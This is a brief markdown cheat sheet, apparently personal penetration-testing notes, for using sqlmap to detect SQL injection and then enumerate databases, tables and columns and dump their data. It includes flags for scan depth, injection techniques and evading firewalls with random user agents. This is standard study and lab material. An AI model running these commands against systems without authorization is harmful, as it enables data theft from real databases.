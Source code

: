 ```yaml
---
tags: [security, sqli, web]
---
```


````bash
sqlmap -hh # Extended Help
````

1. <u>Check site for Vulnerability</u>

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

2. <u>Retrieve DB Names</u>

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

3. <u>All Tables from DB</u>

````bash
sqlmap -u <URL> -D <db-name> --tables
````

4. <u>Columns from Table</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

5. <u>View Data from Column</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**<u>Flags</u>**:  
-u URL : Target URL  
--level=5 : Through Scan - Default : 1  
--risk=3 : Risk Level - Default : 1  
-r filename : Provide the request file  
--random-agent : Request blocked by firewall  
--dump : Exploit Vulnerability Save result to file

--string "string" : String present on result page on successful query (Required from Blind Injection)  
--dbms=dbms-name : Pass Database Type (MySQL, PostgreSQL, etc.)

--technique : BEUSTQ  
B: Boolean-based blind  
E: Error-based  
U: Union query-based  
S: Stacked queries  
T: Time-based blind  
Q: Inline queries
